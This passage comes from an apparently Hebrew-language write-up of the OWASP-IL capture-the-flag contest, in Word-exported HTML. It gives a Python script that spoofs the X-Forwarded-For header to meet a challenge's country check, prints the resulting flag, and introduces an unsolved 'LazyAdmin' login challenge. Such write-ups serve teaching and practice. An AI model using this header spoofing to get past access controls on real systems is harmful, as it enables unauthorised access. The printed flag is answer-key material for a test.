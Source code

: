```python
import requests, re
 
ip_table = {}
with open("proxy.txt") as f:
    for line in f:
        line = line.rstrip()
        ip, country = line.split("\t")
        ip_table[country.lower()] = ip.split(":")[0]
 
s = requests.Session()
 
country_regex = re.compile("In order to get the flag you must to serve from ([^(]+) \(")
url = 'http://challenges.owaspil.ctf.today:8094/'
headers = None
text = ""
while "OWASP" not in text:
    r = s.get(url, headers = headers)
    print (r.text)
    text = r.text
    match = country_regex.search(r.text)
    if match:
        country = match.group(1).lower()
        headers = {'X-Forwarded-For': ip_table[country]}
    else:
        print("No match for {}!".format(r.text))
        break
 
```

<p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=EN-US style='font-size:10.0pt;line-height:107%;font-family:"Courier New"'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הדגל:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><b><span lang=EN-US dir=LTR>OWASP-IL{Wh0RuNTh3World?}</span></b></p>
<b><span lang=EN-US style='font-size:11.0pt;line-height:107%;font-family:"Calibri",sans-serif'><br
clear=all style='page-break-before:always'>
</span></b>
<p class=MsoNormal><b><span lang=EN-US>&nbsp;</span></b></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 7 </span><span
lang=HE style='font-family:"Arial",sans-serif'>–</span><span lang=HE
style='font-family:"Times New Roman",serif'> </span><span lang=EN-US dir=LTR>LazyAdmin</span><span
dir=RTL></span><span lang=HE style='font-family:"Times New Roman",serif'><span
dir=RTL></span> (רמת קושי בינונית, 350 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
<p><span lang=en-IL>Do you think that you can login with administrator
privileges in order to retrieve the flag? :)</span></p>
<p><span lang=en-IL>user:password</span></p>
<p><span lang=en-IL>URL: <span class=MsoHyperlink><b><a
href="http://challenges.owaspil.ctf.today:8084/">http://challenges.owaspil.ctf.today:8084/</a></b></span></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ובכן, התשובה היא
שלא... או במילים אחרות, את האתגר הזה לא הצלחתי לפתור. </span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>בכל זאת, אתן כיוון
מסוים שנראה לי הגיוני.</span></p>